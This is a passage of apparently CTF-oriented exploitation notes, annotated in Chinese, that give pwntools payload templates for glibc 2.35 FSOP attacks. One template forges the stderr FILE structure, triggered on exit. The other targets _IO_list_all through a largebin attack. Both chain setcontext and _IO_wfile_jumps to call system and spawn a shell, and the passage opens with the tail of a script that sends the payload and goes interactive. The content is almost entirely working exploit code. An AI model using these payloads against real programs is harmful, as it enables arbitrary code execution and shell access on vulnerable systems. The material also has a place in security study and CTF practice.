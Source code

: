 ```python
p1 += pay

gdb.attach(io,gdbscript)

sl(hex(_stderr-0x30)) # write_base

pause()
sl(p1)
io.interactive()
```

‍

‍

## libc 2.35 stderr (exit触发)(v2)

- 执行 `system('  sh;');`​

```python
libc.address = libc_base

_stderr = libc.sym['_IO_2_1_stderr_']


fake_IO_addr = _stderr


pay = flat({
    0x00: '  sh;',
    0x18-0x10: libc.sym['setcontext'] + 61, # 0x8 # 0x10
    0x20-0x10: fake_IO_addr,	# 0x20 > 0x18
    0x18: libc.sym['system'],
    0xa0: fake_IO_addr-0x10, 	# 取此地址 +0xe0的地址，但是 在这里是 stdout 的 flags,为了不影响stdout修改
    0xc0: 1,                	# mode
    0xe0-0x10: fake_IO_addr,	# 0xe0 
    0xd8: libc.sym['_IO_wfile_jumps'] + 0x30,
    },filler=b'\x00')
```

‍

## libc 2.35 largebins attack _IO_list_all

‍

```python
libc.address = libc_base

fake_IO_addr = heap_addr


pay = flat({
    0x18-0x10: libc.sym['setcontext'] + 61, # 0x8 # 0x10
    0x20-0x10: fake_IO_addr,	# 0x20 > 0x18
    0x18: libc.sym['system'],
    0xa0: fake_IO_addr-0x10, 	# 取此地址 +0xe0的地址，但是 在这里是 stdout 的 flags,为了不影响stdout修改
    0xc0: 1,                	# mode
    0xe0-0x10: fake_IO_addr,	# 0xe0 
    0xd8: libc.sym['_IO_wfile_jumps'] + 0x30,
    },filler=b'\x00')
```
